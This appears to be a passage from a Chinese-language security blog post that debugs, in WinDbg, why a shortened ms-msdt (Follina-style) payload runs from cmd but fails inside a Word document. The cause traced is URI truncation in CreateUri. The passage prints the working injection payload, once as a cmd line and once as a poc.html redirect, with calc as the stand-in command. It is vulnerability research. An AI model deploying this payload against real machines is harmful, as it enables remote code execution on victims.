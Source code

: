 ```
11 000000e4`8ad4f7b0 00007ffa`d9b926ab SHELL32!CDefFolderMenu::InvokeCommand+0x13d
12 000000e4`8ad4fb10 00007ffa`d9b92583 SHELL32!CShellExecute::_InvokeInProcExec+0xfb
13 000000e4`8ad4fc10 00007ffa`d9bcd671 SHELL32!CShellExecute::_InvokeCtxMenu+0x5b
14 000000e4`8ad4fc50 00007ffa`d9bac32d SHELL32!CShellExecute::_DoExecute+0x151
15 000000e4`8ad4fcc0 00007ffa`da48c3f9 SHELL32!<lambda_519a2c088cd7d0cdfafe5aad47e70646>::<lambda_invoker_cdecl>+0x2d
16 000000e4`8ad4fd30 00007ffa`d89d7034 SHCORE!_WrapperThreadProc+0xe9
17 000000e4`8ad4fe10 00007ffa`da5c2651 KERNEL32!BaseThreadInitThunk+0x14
18 000000e4`8ad4fe40 00000000`00000000 ntdll!RtlUserThreadStart+0x21
```

分析word解析URL是因为在尝试缩减payload的过程中发现了缩减后的payload能在cmd上成功执行命令，但是内嵌到docx文档中则无法执行，于是探索了一番。

### 一些尝试

原本的payload可以直接在cmd上运行，其中有些参数是不必要的，最终缩减的payload为`msdt /id PCWDiagnostic /skip force /param "IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc).exe"`，将payload替换到poc.html中`window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../../$(calc).exe \" ";`。然而该payload却无法在word中执行成功，procmon抓到的参数是不完整的：

![Snipaste_2022-06-08_09-53-02](https://blog-1257303866.cos.ap-guangzhou.myqcloud.com/img/Snipaste_2022-06-08_09-53-02.png)

重新调试word，断在ShellExecURL，发现到该函数时命令行的参数已经变成`ms-msdt:/id PCWDiagnostic /$(calc).exe`：

```
0:000> r
rax=0000000000000000 rbx=0000000000000000 rcx=000002c0dc60fc00
rdx=000002c0cdec0000 rsi=000002c8e5144200 rdi=000002c8e5190400
rip=00007ffa9737fbf8 rsp=000000fbbf39d748 rbp=000000fbbf39d850
 r8=000002c0cde50d20  r9=0000000000000001 r10=0000000000008000
r11=000000fbbf39d5a0 r12=00007ffa97dbe358 r13=0000000000000000
r14=0000000000000000 r15=000002c0df5435d0
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
mshtml!ShellExecURL:
00007ffa`9737fbf8 488bc4          mov     rax,rsp
0:000> du 000002c0df5438a0 
000002c0`df5438a0  "/id PCWDiagnostic /$(calc).exe""
```

向前回溯在执行函数`iertutil!CreateUri`后，传入的参数被截断：

```
0:000> r
rax=00000000000000dc rbx=000000000000006e rcx=000000b3c48fbe10
rdx=0000000003002b85 rsi=000001f1917fe9a8 rdi=0000000000000000
rip=00007ffa96d34a77 rsp=000000b3c48fbdb0 rbp=000000b3c48fbeb0
 r8=0000000000000000  r9=000000b3c48fbde8 r10=0000000000000000
r11=000000000000006e r12=000000b3c48fdeb0 r13=0000000000000000
r14=000000b3c48fdec8 r15=000000000000006e
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
mshtml!GetFullyExpandedUri+0x12b:
00007ffa`96d34a77 48ff1572c7f600  call    qword ptr [mshtml!_imp_CreateUri (00007ffa`97ca11f0)] ds:00007ffa`97ca11f0={iertutil!CreateUri (00007ffa`ce4ffa10)}
0:000> du rcx											//传入的参数
000000b3`c48fbe10  "ms-msdt:/id PCWDiagnostic /skip "
000000b3`c48fbe50  "force /param "IT_LaunchMethod=Co"
000000b3`c48fbe90  "ntextMenu IT_BrowseForFile=/../."
000000b3`c48fbed0  "./$(calc).exe""
0:000> dps r9 L1										//传出的IUri结构指针
000000b3`c48fbde8  00000000`00000000
0:000> p
mshtml!GetFullyExpandedUri+0x132:
00007ffa`96d34a7e 0f1f440000      nop     dword ptr [rax+rax]
0:000> du poi(poi(000000b3`c48fbde8)+68)				//执行完函数后返回的IUri结构所指的URI字符串
```